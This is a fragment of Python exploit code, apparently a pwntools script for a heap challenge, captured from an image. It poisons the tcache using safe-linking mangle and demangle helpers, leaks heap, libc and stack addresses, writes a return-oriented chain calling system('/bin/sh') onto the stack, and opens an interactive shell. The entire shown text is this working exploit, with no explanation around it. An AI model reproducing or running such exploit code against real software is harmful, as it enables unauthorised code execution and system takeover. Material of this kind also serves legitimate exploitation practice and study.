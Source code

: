 ```py
log.success(f"{heap_leak_demangled = :#0x}")

edit(1, p64(mangle(libc_base + libc.sym.environ, heap_leak_demangled)))

add(0, b"AAAA")
add(0, b"AAAA")
add(0, b"")
stack_leak = u64(view(0).ljust(8, b"\x00"))
log.success(f"{stack_leak = :#0x}")


chain = flat(
    0x4141414141414141,
    p64(libc_base + libc_rop.ret.address),
    p64(libc_base + libc_rop.rdi.address),
    p64(libc_base + next(libc.search(b"/bin/sh\x00"))),
    p64(libc_base + libc.sym.system),
)

chunk_size = len(chain)

add(0, b"AAAA", length=chunk_size)
add(1, b"BBBB", length=chunk_size)
add(2, b"CCCC", length=chunk_size)
remove(0)
remove(1)
remove(2)

heap_leak = u64(view(2).ljust(8, b"\x00"))
log.success(f"{heap_leak = :#0x}")
heap_leak_demangled = demangle(heap_leak)
log.success(f"{heap_leak_demangled = :#0x}")

stack_target = stack_leak - 0x148
log.success(f"{stack_target = :#0x}")
edit(1, p64(mangle(stack_target, heap_leak_demangled)))

add(0, b"AAAA", length=chunk_size)
add(0, b"AAAA", length=chunk_size)
add(0, chain, length=chunk_size)

io.interactive()
```